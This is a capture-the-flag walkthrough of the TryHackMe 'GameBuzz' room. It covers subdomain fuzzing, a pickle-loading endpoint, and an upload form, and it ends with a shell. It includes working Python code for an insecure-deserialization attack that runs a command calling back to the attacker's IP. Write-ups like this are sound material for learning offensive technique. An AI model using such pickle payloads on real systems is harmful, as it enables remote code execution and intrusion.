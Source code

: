 <h3> GameBuzz TryHackMe </h3>

Difficulty = Hard

Nmap Scan:
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2b8867ef-56a0-43e5-860d-f2453459c873)

Going over to the web server shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/72c13526-255a-4bc4-ae0b-8d729902260d)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/358c80bb-9bcd-49ff-9d4d-d22e05cf18b7)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/57414644-72f7-45a4-8ba3-b3ba4eb2e751)

Noticing the email *admin@incognito.com* we can deduct that the domain name is *incognito.com*

I'll add that to my */etc/hosts* file

Now poking around this web app i saw the *Game Rating* function
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/35f31582-8204-4839-a88f-ee25889b5252)

When you click it and then click game 1 with a proxy on this is what I got
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/73392813-ef46-4ce4-98e4-add3c1cfbfc9)

```json
{"object":"/var/upload/games/object.pkl"}
```

We can see that it's loading the object pickled file 🤔

Let's keep this in mind!

Now for more enumeration since we have the domain lets fuzz for sub domains 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a6783ee6-458f-4c0c-a655-c34d945fe539)

I got *dev* so i'll update my */etc/hosts* file with the new subdomain *dev.incognito.com*

Going over to the newly founded subdomain shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/406ca395-c76f-41f1-b11a-b2948a14d85a)

Checking */robots.txt* shows */secret*
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2b6d8c8c-0285-4aec-bd2b-13f7bc04f112)

But after navigating to */secret* gives 403 forbidden
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/add9bbf8-6807-4155-ae7d-659b2488e247)

So I fuzzed for files there and got */upload*
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/c1966332-64c8-4382-8ed7-75c9343d5055)

Moving there shows an upload form 

Now this is good cause remember from the main domain we can call any pickled file and since we are opportuned to upload any file lets upload a pickle file

I made a script to make icmp callback to my host

```python
#!/usr/bin/python3
# Author: Hack.You
import os
import pickle

class Shell(object):
    def __reduce__(self):
        cmd = 'ping -c 5 10.2.42.156'
        return (os.system, (cmd,))

pickledData = pickle.dumps(Shell())
with open('payload.pkl', 'wb') as f:
    f.write(pickledData)

```

Running it creates the pickle file 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/3d67b081-9fbf-44dd-92bf-e90fb55d9253)

Now let upload the serialized payload
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/edb33e1e-ad19-4e34-b60f-101383fcac10)

I already setup *tcpdump* listening for icmp connection 

```bash
sudo tcpdump -i tun0 icmp
```

Since the file is already uploaded we can call it via the fetch endpoint on the main domain
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/9419975b-ed4c-4d53-9eb0-cec23cc454d6)

```json
{"object":"/var/upload/payload.pkl"}
```

Back on tcpdump we get a hit 😄
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/8a0bdbe0-d147-4350-a9f5-de65e9ad368f)

Now lets get shell. Here's my payload [script](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/thm/GameBuzz/pickle.py)

After running it and uploading it then using the fetch endpoint to load the pickle data I got shell
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/7ee6d51c-1040-4c2d-be89-184992a40d11)


